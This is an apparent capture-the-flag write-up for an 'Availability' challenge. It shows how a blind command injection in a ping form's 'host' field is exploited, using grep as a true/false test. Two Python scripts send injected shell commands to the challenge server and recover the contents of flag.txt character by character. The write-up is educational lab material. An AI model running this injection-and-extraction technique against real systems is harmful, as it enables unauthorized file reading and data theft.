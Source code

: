 ![Availability](https://raw.githubusercontent.com/Glitch-Gecko/glitch-gecko.github.io/main/images/Availability2.png)

I tried the same thing I did with Intregrity, but instead of displaying the flag, it just gave me a successful ping.

Experimenting a little bit, I changed the ip to something I knew would be unsuccessful and tried ```cat flag.txt```

This time, I received a failed ping.


Knowing this, I figured it would be possible to use the requests module on python in order to use the ```grep``` command to search for letters in the flag.

Here was my quick script to build up a character dictionary of possible letters:
```python
import requests
character_dictionary = ''
characters = 'abcdefghijklmnopqrstuvwxyz1234567890'

for char in characters:
    payload = """
    grep {letter} "flag.txt"
    """.format(letter=char)
    print(character_dictionary, char)
    r = requests.post('http://challenge.ctf.games:31862/', data={'host':payload})
    if 'Success' in r.text:
        character_dictionary += char
print(character_dictionary)
```

And here was the output:

![Availability 2](https://raw.githubusercontent.com/Glitch-Gecko/glitch-gecko.github.io/main/images/Availability3.png)

Knowing the characters in the flag can now allow me to figure out exactly what the flag is, using a very similar script:

```python
import requests
flag = ''
characters = 'abcdfgl124567890'

for i in range(32):
    for char in characters:
        payload = """
        grep {letter} "flag.txt"
        """.format(letter=flag+char)
        print(flag, char)
        r = requests.post('http://challenge.ctf.games:31862/', data={'host':payload})
        if 'Success' in r.text:
            flag += char
            break
print(flag)
```
